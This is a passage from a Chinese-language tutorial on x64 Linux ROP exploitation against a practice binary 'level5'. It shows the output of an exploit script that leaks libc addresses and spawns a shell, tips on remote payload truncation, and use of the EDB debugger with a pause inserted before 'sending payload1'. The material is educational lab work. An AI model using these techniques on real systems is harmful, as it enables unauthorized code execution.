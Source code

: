 要注意的是，当我们把程序的io重定向到socket上的时候，根据网络协议，因为发送的数据包过大，read()有时会截断payload，造成payload传输不完整造成攻击失败。这时候要多试几次即可成功。如果进行远程攻击的话，需要保证ping值足够小才行（局域网）。最终执行结果如下：

```
#!bash
$ python exp7.py 
[+] Started program './level5'
got_write: 0x601000
got_read: 0x601008
off_system_addr: 0xa1c40

#############sending payload1#############

write_addr: 0x7f79d5779370
system_addr: 0x7f79d56d7730

#############sending payload2#############


#############sending payload3#############

[*] Switching to interactive mode
$ whoami
mzheng
```

# 0x05 EDB调试器

------

我们在学习Linux ROP的过程中一定少不了调试这一环节，虽然gdb的功能很强大，但命令行界面对很多人来说并不友好。很多学习Windows调试的人用惯了ollydbg再接触gdb的话总感觉很难上手。其实在linux下也有类似于ollydbg的调试工具，那就是EDB-debugger。这里给出edb的下载地址，具体的编译请参考readme：

```
EDB-debugger https://github.com/eteran/edb-debugger
```

下面我们就拿level5做例子来讲解一下如何使用EDB。首先是挂载(attach)进程和设置断点(break point)。我们知道当我们在用exp.py脚本进行攻击的时候，脚本会一直运行，我们并没有足够的时间进行挂载操作。想要进行调试的话我们需要让脚本暂停一下，随后再进行挂载。暂停的方法很简单，只需要在脚本中加一句”raw_input()”即可。比如说我们想在发送payload1之前暂停一下脚本，只需要这样：

```
ss = raw_input()
print "\n#############sending payload1#############\n"
p.send(payload1)
```

这样的话，当脚本运行起来后，就会在raw_input()这一行停下来，等待用户输入。这时候我们就可以启动EDB进行挂载了。

![image-20190213012459077](assets/hacker_rop_x64/image-20190213012459077.png)

使用EDB进行挂载非常简单，输入进程名点ok即可。

![image-20190213012510963](assets/hacker_rop_x64/image-20190213012510963.png)

